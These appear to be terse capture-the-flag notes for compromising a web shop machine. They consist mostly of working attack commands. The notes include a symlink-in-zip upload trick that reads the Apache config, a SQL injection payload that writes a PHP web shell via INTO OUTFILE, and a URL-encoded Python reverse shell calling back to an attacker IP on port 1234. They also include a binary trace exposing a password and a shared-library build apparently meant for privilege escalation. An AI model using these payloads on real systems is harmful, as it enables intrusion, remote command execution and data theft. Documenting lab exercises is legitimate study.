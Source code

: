 
# LFI
LFI via symbolic links and zipped pdf upload:
```
ln -s ../../../../etc/apache2/sites-available/000-default.conf test.pdf
zip --symlinks archive.zip test.pdf 
```

Visit uploaded file, which is a symlink to the apache config file. In burp, you can see the file contents

- apache config file leaks directory of wep application at `/var/www/html/`



```bash
quantity=1&product_id=
14564654' UNION select "<?php if(isset($_GET['cmd'])){system($_GET['cmd']);}?>", '', '', '','','','','' from products into outfile '/var/lib/mysql/shell.php'; --
1
```



```bash
http://10.10.11.229/shop/index.php?page=/var/lib/mysql/shell&cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.16.18%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```


echo "St0ckM4nager\n1\n3" | strace stock


gcc -c -fPIC mylibrary.c -o mylibrary.o && gcc -shared -o libmylibrary.so mylibrary.o
